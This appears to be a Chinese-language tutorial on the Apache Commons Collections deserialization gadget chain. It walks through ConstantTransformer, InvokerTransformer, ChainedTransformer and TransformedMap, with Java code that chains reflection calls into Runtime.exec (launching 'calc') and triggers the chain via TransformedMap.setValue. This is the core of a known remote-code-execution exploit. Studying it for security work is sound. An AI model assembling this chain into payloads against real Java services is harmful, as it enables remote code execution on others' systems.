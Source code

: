 ## Transformer

Transformer`是一个接口类，提供了一个对象转换方法`transform

```java
public interface Transformer {

    /**
     * 将输入对象（保持不变）转换为某个输出对象。
     *
     * @param input  需要转换的对象，应保持不变
     * @return 一个已转换的对象
     * @throws ClassCastException (runtime) 如果输入是错误的类
     * @throws IllegalArgumentException (runtime) 如果输入无效
     * @throws FunctorException (runtime) 如果转换无法完成
     */
    public Object transform(Object input);

}
```

该接口的重要实现类有：`ConstantTransformer`、`invokerTransformer`、`ChainedTransformer`、`TransformedMap` 。

### ConstantTransformer

对Transformer的实现类，重写了transform方法

ConstantTransformer`，常量转换，转换的逻辑也非常的简单：传入对象不会经过任何改变直接返回。例如传入`Runtime.class`进行转换返回的依旧是`Runtime.class

```java
package org.example;

import org.apache.commons.collections.functors.ConstantTransformer;

public class ConstantTransformerTest {

    public static void main(String[] args) {
        Object obj = Runtime.class;
        ConstantTransformer transformer = new ConstantTransformer(obj);
        System.out.println(transformer.transform(obj));
    }

}
```

### InvokerTransformer

这个类实现了`java.io.Serializable`接口。`InvokerTransformer`类`transform`方法实现了类方法动态调用，即采用反射机制动态调用类方法（反射方法名、参数值均可控）并返回该方法执行结果。

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }

    public Object transform(Object input) {
        if (input == null) {
            return null;
        }

        try {
              // 获取输入类的类对象
            Class cls = input.getClass();

              // 通过输入的方法名和方法参数，获取指定的反射方法对象
            Method method = cls.getMethod(iMethodName, iParamTypes);

              // 反射调用指定的方法并返回方法调用结果
            return method.invoke(input, iArgs);
        } catch (Exception ex) {
            // 省去异常处理部分代码
        }
```

使用该类来执行本地命令

```java
package org.example;

import org.apache.commons.collections.functors.InvokerTransformer;

public class InvokerTransformerTest {

    public static void main(String[] args) {
        // 定义需要执行的本地系统命令
        String cmd = "calc";

        // 构建transformer对象
        InvokerTransformer transformer = new InvokerTransformer(
                "exec", new Class[]{String.class}, new Object[]{cmd}  //方法名为exec,方法参数类型的数组，实际参数值的数组
        );

        // 传入Runtime实例，执行对象转换操作
        transformer.transform(Runtime.getRuntime());
    }
}
```

### ChainedTransformer

`org.apache.commons.collections.functors.ChainedTransformer`类封装了`Transformer`的链式调用，我们只需要传入一个`Transformer`数组，`ChainedTransformer`就会依次调用每一个`Transformer`的`transform`方法。

示例代码

```java
package org.example;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;

public class ChainedTransformerTest {

    public static void main(String[] args){
        String cmd = "calc";

        Transformer[] transformers =new Transformer[]{
                new ConstantTransformer(Runtime.class),
                //返回Runtime.class作为第一个Invoker的Input
                //Class runtimeClass = Runtime.class;
                new InvokerTransformer("getMethod" ,new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}
                ),
                //Class cls1 = runtimeClass.getClass(); 没有变化，还是相当于Runtime这个类的对象Runtime.class
                //Method getMethod = cls1.getMethod("getMethod",.......................)创建了getMethod这个方法的对象
                //Method getRuntime = getMethod.invoke(runtimeClass,.......................)这里获取到了getRuntime这个方法
                new InvokerTransformer("invoke",new Class[]{Object.class, Object[].class},new Object[]{null,new Object[0]}
    ),
                //Class cls2 = getRuntime.getClass();获取的是Method这个公共API的对象
                //Method InvokeMethod =cls2.getMethod("invoke",....................)获取到了invoke方法
                //Runtime runtime = (Runtime) InvokeMethod.invoke(getRuntime, new Object[]{null, new Class[0]}) 获取到了Runtime对象实例
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{cmd})
        };
                //Class cls3 = runtime.getClass();
                //Method execMethod = cls3.getMethod("exec",..........)获取exec方法
                //execMethod.invoke(runtime,cmd)执行cmd

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //创建调用链对象
        Object transform = chainedTransformer.transform(null);
        //执行对象转化
        System.out.println(transform);
    }

}
```

## 利用`InvokerTransformer`执行本地命令

org.apache.commons.collections.map.TransformedMap`类间接的实现了`java.util.Map`接口，同时支持对`Map`的`key`或者`value`进行`Transformer`转换，调用`decorate`和`decorateTransform`方法就可以创建一个`TransformedMap

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      return new TransformedMap(map, keyTransformer, valueTransformer);
}

public static Map decorateTransform(Map map, Transformer keyTransformer, Transformer valueTransformer) {
      // 省去实现代码
}
```

只要调用`TransformedMap`的`setValue/put/putAll`中的任意方法都会调用`InvokerTransformer`类的`transform`方法，从而也就会触发命令执行。

在ChainedTransformerTest代码中添加如下部分

```java
        // 创建Map对象
        Map map = new HashMap();
        map.put("value", "value");

        // 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
        Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

        // transformedMap.put("v1", "v2");// 执行put也会触发transform

        // 遍历Map元素，并调用setValue方法
        for (Object obj : transformedMap.entrySet()) {
            Map.Entry entry = (Map.Entry) obj;

            // setValue最终调用到InvokerTransformer的transform方法,从而触发Runtime命令执行调用链
            entry.setValue("test");
        }

        System.out.println(transformedMap);
```

意思是我们不需要再手动执行对象转化，转而使用serValue/put/putAll方法来实现

> 任意类rce条件
>
> 1. 实现了`java.io.Serializable`接口；
> 2. 并且可以传入我们构建的`TransformedMap`对象；
> 3. 调用了`TransformedMap`中的`setValue/put/putAll`中的任意方法一个方法的类

> 为什么要实现序列化的接口？
>
>  只有实现了 `java.io.Serializable` 接口的对象才能被序列化和反序列化。我们需要一个反序列化入口，并且还要序列化恶意类